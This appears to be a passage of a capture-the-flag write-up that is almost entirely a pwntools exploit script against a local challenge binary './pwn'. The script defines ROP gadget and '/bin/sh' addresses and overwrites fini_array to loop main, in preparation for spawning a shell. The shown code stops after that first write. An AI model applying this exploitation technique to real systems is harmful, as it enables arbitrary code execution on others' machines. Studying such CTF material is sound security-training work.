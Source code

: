 ### exp

```bash
#coding:utf-8
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')

syscall = 0x0402514
rax = 0x0448fcc
rdx = 0x0448415
rsi = 0x0406f80
rdi = 0x0401746
bin_sh = 0x0492895

fini_array = 0x04B80B0
main_addr  = 0x0401C1D
libc_csu_fini = 0x0402CB0
leave_ret = 0x0401CF3

esp = 0x04B80C0
ret = 0x0401016

def duan():
    gdb.attach(p)
    pause()

def write(addr,data):
    p.sendafter('addr:',p64(addr))
    p.sendafter('data:',data)


#使程序循环跑起来       fini_array[0]   fini_array[1]
write(fini_array,p64(libc_csu_fini)+p64(main_addr))
```